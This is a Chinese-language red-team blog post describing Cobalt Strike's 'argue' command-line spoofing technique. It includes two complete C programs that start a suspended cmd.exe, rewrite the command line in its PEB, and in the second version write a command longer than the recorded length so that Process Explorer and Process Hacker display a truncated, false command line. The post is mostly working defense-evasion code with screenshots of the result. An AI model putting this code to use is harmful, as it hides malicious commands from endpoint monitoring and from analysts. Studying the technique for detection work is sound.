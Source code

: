 # CobaltStrike Argue伪装命令

## 简介

在Cobalt Strike 3.13版本的时候引入了一个进程参数欺骗的技术\(虽然现在都4.0了\)，可以使进程在创建时记录的参数与实际运行时不同，windows系统从peb的commandline中读取参数，并对参数做相应的处理，在线程未初始化完成前，我们可以修改参数，并让进程执行它，在操作上几乎与命令行伪装一样，只是有一些流程上的不同，这里不过多赘述详见[伪装命令行规避检测](fake-commandline.md)。

## 利用流程

1. 创建一个挂起的cmd或powershell进程。
2. 读取peb内的RTL\_USER\_PROCESS\_PARAMETERS结构体。
3. 定位到commandline的buffer指针。
4. 修改buffer的存放的commandline。

## 代码实现

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir";
	//.&& whoami / priv && pause"
	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

执行了修改后的参数: 

![](../.gitbook/assets/image%20%28112%29.png)

## 扩展利用

前面我们说了process hacker和process explorer等进程监视工具会从peb内直接读取commandline的内容，这时就有小朋友要问了，那我们这么做不是会被发现吗\(不皮了不皮了\)。

实际上这么做确实会被此类工具发现明显异常，但由于操作系统读取数据和此类工具读取数据存在一定差异，我们可以利用这样的读取差异来隐藏我们真实的参数。

由于进程监视工具\(啃过源码\)会先读取commandline的length，根据length的值来读取commandline.buffer的内容，而操作系统则由是通过'\x00'来判断字符串是否结束。

这时我们可以写入一个比length更长的命令让监视工具的读取不完全，那么我们就可以在此类工具中伪装commandline。

### 代码

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir . && whoami /priv && pause";

	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

### 实现效果

![process explorer](../.gitbook/assets/image%20%28111%29.png)

![process hacker](../.gitbook/assets/image%20%28109%29.png)

![dir . &amp;&amp; whoami /priv &amp;&amp; pause](../.gitbook/assets/image%20%28110%29.png)

## LINKS

{% embed url="https://app.gitbook.com/@idiotc4t/s/idiotc4t-s-blog/~/drafts/-M9J1qlIVoEe-n1mUrUo/defense-evasion/fake-commandline" %}

{% embed url="https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/" %}





